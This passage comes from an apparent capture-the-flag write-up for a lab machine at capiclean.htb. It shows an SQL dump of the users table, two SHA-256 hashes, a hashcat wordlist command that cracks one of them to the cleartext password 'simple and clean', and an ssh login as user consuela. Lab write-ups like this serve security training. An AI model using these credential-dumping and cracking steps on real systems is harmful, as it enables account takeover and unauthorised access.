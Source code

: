 ```bash
select * from capiclean.users;
```

![cracked](/assets/img/Iclean/Iclean_10.png)

this gives us the following hash file that we can then crack with hashcat

```
2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51
0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa
```

We can crack these hashes with the following hashcat command. We'll be trying to crack these sha256 hashes

```bash
hashcat -a 0 -m 1400 hash /usr/share/wordlists/rockyou.txt -w 3 -O -o cracked.txt
```

After a few seconds we'd get the crack the hash of consuela giving us access to her cleartext credentials

```
0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:simple and clean
```

We can now use these credentials to log into the server using ssh. When it asks for a password fill in **simple and clean**

```
ssh consuela@capiclean.htb
```
